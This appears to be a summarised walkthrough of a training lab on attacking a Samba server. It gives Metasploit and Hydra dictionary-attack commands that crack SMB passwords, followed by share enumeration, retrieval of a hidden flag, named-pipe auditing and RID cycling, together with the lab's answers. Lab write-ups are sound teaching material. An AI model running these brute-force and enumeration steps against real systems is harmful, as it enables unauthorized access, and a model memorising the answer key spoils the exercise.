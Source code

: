 

Here are the summarized steps from the document in bullet points:

**Q1. What is the password of user “jane” required to access share “jane”? Use smb_login Metasploit module with a password wordlist.**

- Commands:
    - Start Metasploit console: `msfconsole`
    - Use SMB login scanner: `use auxiliary/scanner/smb/smb_login`
    - Set the password wordlist: `set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt`
    - Set SMB user and target IP: `set SMBUser jane` and `set RHOSTS 192.212.251.3`
    - Exploit to find the password: `exploit`
- Answer: abc123

**Q2. What is the password of user “admin” required to access share “admin”? Use Hydra with a password wordlist.**

- Commands:
    - Decompress the wordlist: `gzip -d /usr/share/wordlists/rockyou.txt.gz`
    - Use Hydra to perform a dictionary attack: `hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.212.251.3 smb`
- Answer: password1

**Q3. Which share is read-only? Use smbmap with credentials obtained in question 2.**

- Command: `smbmap -H 192.212.251.3 -u admin -p password1`
- Answer: nancy

**Q4. Is share “jane” browseable? Use credentials obtained from the 1st question.**

- Commands:
    - List shares: `smbclient -L 192.212.251.3 -U jane`
    - Check if share "jane" exists and is browsable: `smbclient //192.212.251.3/jane -U jane`
- Answer: no

**Q5. Fetch the flag from share “admin”.**

- Commands:
    - Access the share: `smbclient //192.212.251.3/admin -U admin`
    - Navigate to the "hidden" directory and retrieve the flag: `ls`, `cd hidden`, `ls`, `get flag.tar.gz`
    - Extract and display the flag: `exit`, `tar -xf flag.tar.gz`, `cat flag`
- Answer: 2727069bc058053bd561ce372721c92e

**Q6. List the named pipes available over SMB on the Samba server? Use pipe_auditor Metasploit module with credentials obtained from question 2.**

- Commands:
    - Start Metasploit console: `msfconsole`
    - Use SMB pipe auditor: `use auxiliary/scanner/smb/pipe_auditor`
    - Set SMB user, password, and target IP: `set SMBUser admin`, `set SMBPass password1`, `set RHOSTS 192.212.251.3`
    - Exploit to list named pipes: `exploit`
- Answer: netlogon, lsarpc, samr, eventlog, InitShutdown, ntsvcs, srvsvc, wkssvc

**Q7. List the SID of Unix users shawn, jane, nancy, and admin respectively by performing RID cycling using enum4Linux with credentials obtained in question 2.**

- Command: `enum4linux -r -u "admin" -p "password1" 192.212.251.3`
- Answers: S-1-22-1-1000, S-1-22-1-1001, S-1-22-1-1002, S-1-22-1-1003

These steps cover the process of identifying passwords, share permissions, retrieving flags, listing named pipes, and obtaining SIDs from the Samba server.